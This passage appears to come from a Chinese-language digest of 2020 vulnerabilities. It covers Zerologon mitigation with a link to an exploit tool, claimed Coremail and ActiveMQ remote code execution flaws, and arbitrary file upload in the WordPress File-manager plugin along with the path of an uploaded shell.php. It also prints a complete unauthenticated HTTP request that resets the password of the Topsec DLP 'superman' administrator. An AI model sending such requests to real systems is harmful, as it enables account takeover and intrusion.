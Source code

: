 在安装更新补丁后，还可通过部署域控制器 (DC) 强制模式以免受到该漏洞影响：

请参考官方文档进行配置《如何管理与 CVE-2020-1472 相关的 Netlogon 安全通道连接的更改》：

https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc

其他工具：https://github.com/dirkjanm/CVE-2020-1472

14.coremail 0day - may be rce

15.activemq 远程代码执行 0day

http://activemq.apache.org/security-advisories.data/CVE-2020-13920-announcement.txt

16. 天融信数据防泄漏系统越权修改管理员密码

无需登录权限, 由于修改密码处未校验原密码, 且 /?module=auth_user&action=mod_edit_pwd

接口未授权访问, 造成直接修改任意用户密码。: 默认 superman 账户 uid 为 1。

POST /?module=auth_user&action=mod_edit_pwd

Cookie: username=superman;

uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1

17.Wordpress File-manager 任意文件上传

参考: https://www.anquanke.com/post/id/216990

相信大家对 Wordpress 并不陌生; File-manager 插件也是相当火爆前段时间爆出任意文件上传漏洞。

成功上传后文件访问路径

/wordpress/wp-content/plugins/wp-file-manager/lib/files/shell.php